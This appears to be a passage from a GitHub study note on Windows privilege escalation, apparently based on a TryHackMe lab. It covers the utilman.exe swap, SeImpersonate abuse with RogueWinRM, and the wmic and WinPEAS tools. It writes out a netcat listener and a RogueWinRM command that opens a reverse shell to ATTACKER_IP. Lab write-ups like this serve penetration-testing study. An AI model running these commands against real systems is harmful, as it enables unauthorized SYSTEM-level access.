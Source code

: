     And finally, proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges:  
    <img src="https://user-images.githubusercontent.com/73976100/224530102-38714ced-bfe2-4e44-ae57-9104a2350761.png" width="700">  
    </details>

- SeImpersonate / SeAssignPrimaryToken  
    These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.  
    As attackers, if we manage to take control of a process with SeImpersonate or SeAssignPrimaryToken privileges, we can impersonate any user connecting and authenticating to that process.  
    <details>
    <summary>DEMO</summary>

    To elevate privileges using such accounts, an attacker needs the following:
     1. To spawn a process so that users can connect and authenticate to it for impersonation to occur. 
     2. Find a way to force privileged users to connect and authenticate to the spawned malicious process.  

     We will use RogueWinRM exploit to accomplish both conditions.  

     Before running the exploit, we'll start a netcat listener to receive a reverse shell on our attacker's machine:
     ```
     user@attackerpc$ nc -lvp 4442
     ```  
     And then, use our web shell to trigger the RogueWinRM exploit using the following command:  
     ```
     c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
     ```  
    </details>  

### Abusing vulnerable software  
- Unpatched Software  
    `wmic` tool to list software installed on the target system and its versions. (it might take around a minute to finish):  
    ```
    wmic product get name,version,vendor
    ```  

- Case Study: Druva inSync 6.6.3
    <details>
    <summary>DEMO</summary>

    ![FireShot Capture 026 - TryHackMe - Windows Privilege Escalation - tryhackme com](https://user-images.githubusercontent.com/73976100/224541581-f24b0564-d9d4-4df7-a29d-7cd7fafd3716.png)  
    </details>

### Tools of the Trade
- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)  
    WinPEAS is a script developed to enumerate the target system to uncover privilege escalation paths.   
    ```
    C:\> winpeas.exe > outputfile.txt
    ```  
